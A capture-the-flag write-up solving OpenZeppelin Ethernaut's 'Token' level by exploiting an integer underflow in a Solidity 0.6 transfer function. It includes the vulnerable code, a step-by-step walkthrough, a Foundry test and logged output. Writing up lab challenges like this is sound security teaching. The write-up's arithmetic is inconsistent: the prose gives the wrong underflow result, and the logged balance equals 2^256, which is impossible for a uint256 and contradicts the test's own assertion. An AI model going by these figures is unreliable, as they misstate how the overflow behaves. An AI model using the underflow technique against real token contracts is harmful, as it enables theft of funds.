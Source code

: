 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

<br>

# What You're Supposed to Do?

in `05-Token` Challenge, You Should Try To find a Way to Mint Yourself Alot of Tokens (kinda).

`05-Token` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)


<br>

# How did i Complete This Challenge?

This One is Simple. Since the Solidity Version of the Codebase is `^0.6.0`, it's Vulnerable to `Overflow/Underflow`, Unless We Use `SafeMath` Library from Openzeppelin Which we Clearly Didn't.

Now Lets take a Look at `transfer` function:


```javascript
    function transfer(address _to, uint256 _value) public returns (bool) {
            require(balances[msg.sender] - _value >= 0);
            balances[msg.sender] -= _value;
            balances[_to] += _value;
            return true;
    }
```


first of all We dont Check if the `msg.sender` has enough tokens to transfer (something like this `require(balances[msg.sender] >= _value);`).

and lets say Attacker has Two External Owned Accounts (user1 and user2). 

Attacker Calls the `transfer` function with `user1` and Sends `10e18` to `user2`. (`msg.sender` == `user1`, `_to` == `user2`, `_value` == `10e18`)

Lets go Through the `transfer` function Line by Line with Above Values and Parameters:

```javascript
    require(balances[msg.sender] - _value >= 0);
    require(0 - 10e18 >= 0);
```

Since We Use `^0.6.0` Solidity Version, the Math Equation of `0 - 10e18` will underflow and the result will be: `require(type(uint256).max - 1  >= 0)` which will clearly pass.

then Lets Take a Look at Next Two Lines:

```javascript
    balances[msg.sender] -= _value;
  // 0 -= 10e18 will result in: type(uint256).max - 1 (user1 balance)

    balances[_to] += _value;
  // 0 += 10e18 will result in: 10e18 (user2 balance)
```

And This is How You Can Solve `05-Token` Challenge from Openzeppelin Ethernaut!

by the Way i Also Wrote Test for it, named as `testTransferfunction` inside the `Token.t.sol` file:

```javascript
    function testTransferfunction() external {
        vm.startPrank(userOne);
        token.transfer(userTwo, 10e18);
        assertEq(token.balanceOf(userTwo), 10e18);
        assertEq(token.balanceOf(userOne), (type(uint256).max - 10e18) + 1);
        vm.stopPrank();

        console.log("Balance of User1: ", token.balanceOf(userOne));
        console.log("Balance of User2: ", token.balanceOf(userTwo));
    }
```

You Can Run the Test With Following Command in Your Terminal: (Required to Have Foundry Installed.)

```javascript
    forge test --match-test testTransferfunction -vvvv
```

Output of the `Logs`:

```javascript
    Logs:
        Balance of User1:  115792089237316195423570985008687907853269984665640564039447584007913129639936
        Balance of User2:  10000000000000000000
```
